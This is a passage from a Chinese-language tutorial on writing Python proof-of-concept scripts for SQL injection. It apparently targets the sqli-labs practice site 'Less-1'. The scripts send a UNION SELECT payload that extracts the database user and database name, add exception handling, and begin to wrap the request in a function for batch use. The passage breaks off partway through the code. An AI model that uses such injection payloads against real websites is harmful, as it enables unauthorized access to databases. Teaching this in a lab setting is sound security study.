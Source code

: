 -----

对于这种情况，我们可以使用 **try except** 方法来捕获异常情况 <br>

```python
import requests
import re

try:

	url = "http://www.sql.com/Less-1/?id=-1\'";

	payloads = " union select 1,user(),database() --+"

	headers = {
		'Host': 'www.sql.com',
		'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0',
		'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
		'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
		'Accept-Encoding': 'gzip, deflate'

	}

	r = requests.get(url+payloads,headers=headers,time=3)

	result = re.findall('<font.*?>(.*?)</font>',r.text)

	print(result)

except:
	print('error')
	# exit()
```

这样就可以了，最后要是出现错误就输出一个 error 。

-----


### <span id = "c">再再高级一点的POC：</span>

这里讲函数封装和批量 <br>

如果想要从其他地方调用这个SQL注入函数，那么我们需要先把他封装起来，<br>

使用 **def** 函数 <br>

**def** 函数是用来定义一个 **function()** 的。 <br>

例： <br>

```python
import requests
import re

def sql():
	try:

		url = "http://www.sql.com/Less-1/?id=-1\'";

		payloads = " union select 1,user(),database() --+"

		headers = {
			'Host': 'www.sql.com',
			'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
```